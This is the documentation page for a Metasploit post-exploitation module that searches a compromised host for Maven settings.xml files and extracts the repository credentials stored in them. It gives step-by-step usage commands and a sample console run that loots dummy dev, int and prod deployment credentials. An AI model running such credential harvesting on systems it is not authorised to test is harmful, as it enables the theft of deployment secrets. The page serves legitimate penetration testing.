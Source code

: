 ## Vulnerable Application

[Maven](https://maven.apache.org/) a software project management.
This module seeks all settings.xml (Maven configuration file) on the target file system to extract credentials from them.
Credentials are store in the `<server>` tag ; the module also tries to cross the identifier found with the `<mirror>` or
`<repository>` tag in order to find the full realm the credentials belong to.

This module was successfully tested against:

- Ubuntu 14.04 and Maven 3.0.5 with shell and meterpreter as session type
- Debian 9 and Maven 3.0.5 with shell and meterpreter as session type

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/maven_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files (settings.xml) containing username and passwords, they will be printed out.

## Scenarios

### Ubuntu 14.04 and Maven version 3.0.5

```
msf post(maven_creds) > run

[*] Finding user directories
[*] Unix OS detected
[*] Looting 19 files
[*] Downloading /home/user/settings.xml
[*] Reading settings.xml file from /home/user/settings.xml
[*] Collected the following credentials:
[*]     Id: server-nexus-dev
[*]     Username: deploynexus-dev
[*]     Password: password-dev
[*] Try to find url from id...
[*] No url found, id will be set as realm

[*] Collected the following credentials:
[*]     Id: server-nexus-int
[*]     Username: deploynexus-int
[*]     Password: password-int
[*] Try to find url from id...
[*] Found url in mirror : http://www.myhost.com/int

[*] Collected the following credentials:
[*]     Id: server-nexus-prd
[*]     Username: deploynexus-prd
[*]     Password: password-prd
[*] Try to find url from id...
[*] Found url in repository : http://www.myhost.com/prd


msf post(maven_creds) > creds

Credentials
===========

host  origin  service  public              private         realm                        private_type
----  ------  -------  ------              -------         -----                        ------------
                       deploynexus-dev     password-dev    server-nexus-dev             Password
                       deploynexus-int     password-int    http://www.myhost.com/int    Password
                       deploynexus-prd     password-prd    http://www.myhost.com/prd    Password